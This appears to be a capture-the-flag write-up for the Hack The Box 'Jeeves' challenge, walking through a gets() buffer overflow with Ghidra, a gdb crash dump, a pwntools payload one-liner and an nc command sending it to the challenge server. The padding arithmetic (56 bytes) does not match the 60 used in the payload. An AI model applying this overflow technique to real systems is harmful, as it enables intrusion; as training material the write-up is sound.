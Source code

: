 ### Jeeves Hack the Box Challenge : Intro to Binary Exploitation

Main Resource Used : https://www.youtube.com/watch?v=W5dVsa3__N4&t

Lets try to check what the binary is doing and it seems to be a very simple binary just out putting the following  output and in the middle it asks for our name and then displays it with a greeting like so :

```bash
Hello, good sir!
May I have your name? a
Hello a, hope you have a good day!
```

Now lets analyze the file in Ghidra to see what its actually doing.

![Ghidra Screenshot](ghidra.png)

Here it seems we need to overwrite the value of the variable i have renamed as variable to overwrite and this machine is using the gets function which is vulnerable to buffer overflow so we can try to overwrite the value to that certain point using the buffer overflow attack but to do lets first lets see if we can overwrite stuff. So transferring my application to gdb and running it with a 100 characters i get a segmentation fault and i can see that i can overwrite the variable :

```bash
gdb-peda$ r
Starting program: /home/nickapic/htb/challenges/jeeves
Hello, good sir!
May I have your name? aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa, hope you have a good day!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x0
RDX: 0x0
RSI: 0x5555555592a0 ("Hello ", 'a' <repeats 100 times>, ", hope you have a good day!\n")
RDI: 0x7ffff7fa5670 --> 0x0
RBP: 0x6161616161616161 ('aaaaaaaa')
RSP: 0x7fffffffded8 ('a' <repeats 28 times>)
RIP: 0x5555555552ae (<main+197>:	ret)
R8 : 0xffffffff
R9 : 0x86
R10: 0x7fffffffde90 ('a' <repeats 100 times>)
R11: 0x246
R12: 0x555555555100 (<_start>:	endbr64)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x10212 (carry parity ADJUST zero sign trap INTERRUPT direction overflow)
```

Now lets try to calculate how many values we gotta go over to get the our variable to overwrite.

We see there is 44 size buffer then an integer which is 4 bytes , then a pointer which is normally 8 bytes and then the int variable which we have to overwrite is 4 bytes so we will need to also add another 4 bytes this calculation to ```0x1337bab3```
So 44+4+8+4 = 56 bytes of padding and then the address. So we can also see that this is in little endian and for 64bit. So we can use soemthing like the pwn library to pack our 64 bit integer

Information about this : https://docs.pwntools.com/en/stable/util/packing.html?highlight=p64#pwnlib.util.packing.p64


```bash
python2 -c "import pwn; print('a'*60 + pwn.p64(0x1337bab3))" > input.txt
```

and then to get the flag we can use :

```bash
nc 139.59.162.195 30942 < input
```
